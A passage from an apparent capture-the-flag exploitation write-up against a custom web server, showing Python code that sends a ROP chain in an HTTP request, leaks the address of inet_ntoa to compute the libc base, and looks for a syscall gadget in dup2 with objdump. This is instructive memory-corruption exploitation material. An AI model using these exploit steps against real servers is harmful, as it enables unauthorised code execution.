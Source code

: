 We can now send it:

```python
io = remote(*REMOTE)
req = b"GET http://blah/hex_message:"+rop1.hex().encode('ascii')+b": HTTP/1.0\r\n"
req += b"Host: "+WEBSERVER+b"\r\n\r\n"
io.send(req)
b = io.recv(10240)
io.close()
```

Looking at `send_http_response()` we expect this to return:

```html
HTTP/1.1 400 Bad Request\r
Server: GW SERVER\r
Content-Length: 106\r
Connection: close\r
Content-Type: text/html; charset=UTF-8\r
\r
<html><head><title>GW</title></head><body><pre>\x01\x32\x54\x76</pre></body></html>
```

... where `0x76543210` is the runtime offset to `inet_ntoa()`. Which it *almost*
does &#128578; - yet another bug in the code introduces few extra zeros before
`<html>`. In any case, with a known offset if `inet_ntoa` inside libc
(**0x00109d10**):

```bash
$ objdump -T libc-2.27.so  | grep inet_ntoa
00109d10 g    DF .text	0000004d  GLIBC_2.0   inet_ntoa
```

... this is enough to extract the libc:

```python
pos = b.find(b'<body><pre>')+len(b'<body>pre>')+1
inet_ntoa = b[pos]+(b[pos+1]<<8)+(b[pos+2]<<16)+(b[pos+3]<<24)
glibc = inet_ntoa - 0x00109d10
print("glibc: "+hex(glibc))
```

## Getting the `syscall` gadget

I stumbled a bit because a) I had hard time doing ret2libc here (see
[above](#ret2libc_on_i386)) b) if I wanted a syscall-based ROP instead, I
could not get a clean `syscall ; ret` gadget. But, when looking at `dup2()`
code, I noticed something almost as good:

```
$ objdump -M intel -d libc-2.27.so | grep -A9 dup2 
(...)
000e7950 <__dup2@@GLIBC_2.0>:
   e7950:	89 da                	mov    edx,ebx
   e7952:	8b 4c 24 08          	mov    ecx,DWORD PTR [esp+0x8]
   e7956:	8b 5c 24 04          	mov    ebx,DWORD PTR [esp+0x4]
   e795a:	b8 3f 00 00 00       	mov    eax,0x3f
   e795f:	65 ff 15 10 00 00 00 	call   DWORD PTR gs:0x10
   e7966:	89 d3                	mov    ebx,edx
   e7968:	3d 01 f0 ff ff       	cmp    eax,0xfffff001
   e796d:	0f 83 1d 17 f3 ff    	jae    19090 <__libc_start_main@@GLIBC_2.0+0x1e0>
   e7973:	c3                   	ret
```
